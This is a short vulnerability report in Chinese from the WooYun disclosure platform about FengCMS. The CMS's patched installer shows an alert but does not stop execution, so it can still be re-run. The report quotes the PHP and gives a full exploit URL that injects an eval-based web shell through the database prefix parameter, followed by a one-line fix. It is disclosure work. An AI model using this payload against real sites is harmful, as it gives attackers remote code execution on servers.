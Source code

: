 ## WooYun-2014-76648：FengCMS 修復不當導致getshell

### 詳細說明
之前提交過一次跟http://**.**.**.**/bugs/wooyun-2014-067508
漏洞重複了。現在重新看一下。發現修復的有問題，而且install目錄默認是不會自動刪除的，依然可以getshell！

```php
header("Content-type:text/html;charset=utf-8");

define("TPL_INCLUDE",1);

// 定義當前路徑

define('ABS_PATH',dirname(__FILE__));

define('ROOT_PATH',dirname(ABS_PATH));

if(!$_GET['step'])$_GET['step']=1;

$config_file=ROOT_PATH.'/config.php';

$install_file=ABS_PATH.'/install.sql';

//這裡是修改添加的程式碼，由於是輸出javascript,所以可以無視

if(file_exists(ROOT_PATH.'/upload/INSTALL')){

  echo '<script type="text/javascript">alert("系統已安裝，如需要重新安裝，請手工刪除upload目錄下的INSTALL文件！");</script>';

  echo '<meta http-equiv="refresh" content="0;url=/">';

}
```

所以直接進行setp = 4 的步驟，其中只有DB_PREFIX字段不影響，可以用來getshell。

### 漏洞證明

直接訪問URL：

```php
.../install/index.php?host=localhost&user=root&password=root&dbname=hello&prefix=f_');@eval($_POST[101]);('&url_type=1&step=4
```
![1.4-1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/1.4/1.4-1.png)

![1.4-2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/1.4/1.4-2.png)

![1.4-3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/1.4/1.4-3.png)




### 修復方案
echo 完了

exit()一下